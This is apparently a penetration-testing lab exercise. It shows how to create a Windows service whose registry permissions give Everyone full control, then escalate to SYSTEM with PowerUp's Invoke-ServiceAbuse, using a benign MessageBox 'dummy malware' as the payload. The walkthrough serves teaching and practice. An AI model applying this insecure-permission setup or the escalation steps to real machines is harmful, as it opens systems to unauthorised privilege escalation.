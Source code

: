 # Write A PS Script That Installs An Insecure Windows Service
An insecure Windows service is one that can be easily exploited by a Penetration Tester. These services often lack proper security protections and can be compromised through vulnerabilities in the code or weak passwords.

## References
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) by HarmJ0y
- [How to Set Permission on a Service Using Subinacl](http://www.waynezim.com/2010/02/how-to-set-permission-on-a-service-using-subinacl/) by Wayne Zimmerman
- [Privilege Escalation with Insecure Windows Service Permissions](https://medium.com/r3d-buck3t/privilege-escalation-with-insecure-windows-service-permissions-5d97312db107) by Nairuz Abulhul on Medium
- [Digging Deeper into Vulnerable Windows Services](https://www.blackhillsinfosec.com/digging-deeper-vulnerable-windows-services/) by Brian Fehrman on BlackHillsInfoSec
- [Windows Privilege Escalation](https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/infrastructure/privesc_windows.md#Insecure-Service-Executables) by 0xJs on GitHub

## Tasks
- Research how to set up a Windows service with insecure configurations, such as weak permissions or allowing modifications by EVERYONE
- Create a PowerShell script that automates the creation of the insecure Windows service, incorporating the vulnerable configurations identified in the research
- Execute your PowerShell script to install the insecure Windows service on the target system
- Use PowerUp.ps1 to exploit the insecure Windows service that your script installed

## Recommended Approach
- Search the following keywords on Google: vulnerable windows service binpath
- Research how to modify the permissions of a Windows Service using SUBINACL.exe
- Research how to create a new Windows Service using sc.exe
- Create a vulnerable Windows Service that any user, regardless of their permission levels, can modify
- Use PowerUp.ps1 to exploit the vulnerable Windows Service and obtain unauthorised SYSTEM privileges on the machine

## Solutions With Scripts
1. Create a dummy malware executable, save the following C++ code as `dummymalware.cpp` and compile it into an executable using compilers like Dev-C++
   ```
   #include <windows.h>
   
   int main()
   {
       MessageBox(NULL, "I'm a Dummy Malware", "Alert", MB_OK | MB_ICONEXCLAMATION);
       return 0;
   }
   ```
2. Save the following PowerShell script as `insecureservice.ps1`. It will create a service called `InsecureService` that runs `dummymalware.exe`, and modifies service permissions so Everyone can modify the service, making it insecure
   ```
   # Define service variables
   $serviceName = "InsecureService"
   $serviceDisplayName = "Insecure Windows Service"
   $serviceDescription = "A vulnerable service with insecure permissions."
   $servicePath = "C:\Windows\System32\dummymalware.exe"  # You can specify any executable
   $serviceStartMode = "Automatic"
   
   # Step 1: Create the service
   New-Service -Name $serviceName -BinaryPathName $servicePath -DisplayName $serviceDisplayName -Description $serviceDescription -StartupType $serviceStartMode
   
   # Step 2: Modify registry permissions to make it insecure
   $acl = Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName"
   $rule = New-Object System.Security.AccessControl.RegistryAccessRule("Everyone", "FullControl", "Allow")
   $acl.SetAccessRule($rule)
   Set-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName" $acl
   
   Write-Host "$serviceName has been created with insecure permissions!"
   ```
3. Open PowerShell as Administrator, run `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then navigate to the folder where insecure service is stored and run `.\insecureservice.ps1`
4. To identify the insecure service with PowerUp.ps1, open PowerShell as Administrator, navigate to where PowerUp.ps1 is stored and run `.\PowerUp.ps1`.
   To check for services with weak permissions, run
   ```
   Get-ServiceUnquoted
   ```
   To check for services with writable executables, run
   ```
   Get-ModifiableServiceFile
   ```
   To check for service permissions, run
   ```
   Get-ServiceDetail -Name "InsecureService"
   ```
5. To exploit the insecure service with PowerUp.ps1, run
   ```
   Invoke-ServiceAbuse -Name "InsecureService" -Command "C:\Windows\System32\dummymalware.exe"
   ```
6. 
